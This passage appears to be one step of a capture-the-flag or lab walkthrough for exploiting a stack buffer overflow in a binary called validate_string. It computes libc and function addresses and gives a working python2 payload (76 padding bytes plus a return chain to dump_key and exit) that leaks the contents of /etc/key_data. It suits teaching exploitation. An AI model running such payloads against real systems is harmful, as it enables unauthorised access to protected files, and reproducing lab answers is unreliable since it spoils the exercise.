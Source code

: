 11. From earlier, we know`dump_key` starts at `0x08049226`. Also, the `exit`
    function starts at `0xf7c00000 + 0x3bc90 = 0xf7c3bc90` (`libc` link address
    plus the offset of `exit` within `libc`). In this step, find the address of
    a string *ending* with `"key_data"`.

```bash
strings -tx /lib/i386-linux-gnu/libc.so.6 | grep key_data$
   1d0f4 _thread_db_sizeof_pthread_key_data
```

   `"key_data"` starts 26 bytes into the string we found, so the address we
   are looking for is: `0xf7c00000 + 0x1d0f4 + 26 = 0xf7c1d10e`. We need to
   place these three addresses at the appropriate offset regarding the
   overflowing buffer's start address (in Little-Endian byte order):

```bash
/usr/sbin/validate_string $(python2 -c'print "A"*76 + "\x26\x92\x04\x08\x90\xbc\xc3\xf7\x0e\xd1\xc1\xf7"')
   validated string: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAA&�������
   Key file contents: d3b07384d113
```

   ...and receive the contents of `/etc/key_data`, which is the answer.

   **Note:** This is an infinity-style question, so the answer will differ
   across instances.
